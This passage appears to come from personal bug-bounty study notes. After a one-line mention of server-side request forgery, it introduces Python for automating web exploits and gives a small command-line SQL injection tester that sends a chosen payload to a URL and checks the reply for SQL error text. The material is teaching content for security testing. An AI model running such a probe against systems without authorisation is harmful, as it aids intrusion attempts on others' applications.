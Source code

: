6. Server-Side Request Forgery ([[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/SERVER SIDE/SERVER SIDE REQUEST FORGERY (SSRF).md|SSRF]]): Allows attackers to make the server perform unintended network requests.

#### Automating web exploits with Python
---


Python provides powerful libraries for web scraping, HTTP requests, and HTML parsing, making it an excellent choice for automating web application exploits. Two commonly used libraries are `requests` for making HTTP requests and `BeautifulSoup` for parsing HTML. Here are some examples of how Python can be used to automate web exploits:

##### SQL INJECTION

```python
import requests
from pyfiglet import figlet_format
import argparse


# Setting up the sql injection function
def sql_injection(url, payload):
    response = requests.get(f'{url}?id={payload}')
    if "error in your SQL syntax" in response.text:
        print(f'[+] Potential SQL injection vulnerability found')
        return response.text


def main():
    # Setting ASCII art
    ascii_art = figlet_format('SQLI test', font='slant')
    print(ascii_art)

    # Argument parsing
    parser = argparse.ArgumentParser(description='Simple SQLI tester for urls')

    parser.add_argument('-u', '--url', type=str, required=True, help='The target url to test SQLI')

    parser.add_argument('-p', '--payload', type=str, required=True, help='Payload to send')

    args = parser.parse_args()

    # Calling the sending exploit function

    sql_injection(url=args.url, payload=args.payload)


if __name__ == '__main__':
    main()

```
